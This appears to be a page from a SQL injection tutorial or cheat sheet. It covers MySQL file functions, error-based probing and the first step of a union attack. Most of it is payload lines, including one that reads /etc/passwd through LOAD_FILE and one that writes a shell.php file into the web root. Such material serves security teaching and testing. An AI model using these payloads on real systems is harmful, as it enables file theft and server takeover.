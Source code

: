 #### MySQL System Functions
```sql
-- Load file content
' UNION SELECT 1, LOAD_FILE('/etc/passwd'), 3--

-- Write file to system
' UNION SELECT 'malicious content' INTO OUTFILE '/var/www/html/shell.php'--
```

### Illegal/Logically Incorrect Query

Creates syntax or logical errors to extract database information through error messages.

#### Syntax Errors
```sql
-- Unclosed quote
admin'

-- Invalid operator
' AND 1=1 AND '1'='2

-- Invalid function
' AND ascii()--
```

#### Logical Errors
```sql
-- Division by zero
' AND 1/0--

-- Type conversion errors
' AND 1='string'--

-- Invalid column count
' ORDER BY 100--
```

### Union SQL Injection

Combines results from multiple SELECT statements to extract data from different tables.

#### Union Requirements
1. Same number of columns in both SELECT statements
2. Compatible data types in corresponding columns
3. Proper positioning of UNION keyword

#### Union Attack Process

**Step 1: Determine Column Count**
```sql
' ORDER BY 1--    (works)
' ORDER BY 2--    (works)
' ORDER BY 3--    (works)
' ORDER BY 4--    (error - 3 columns confirmed)
```
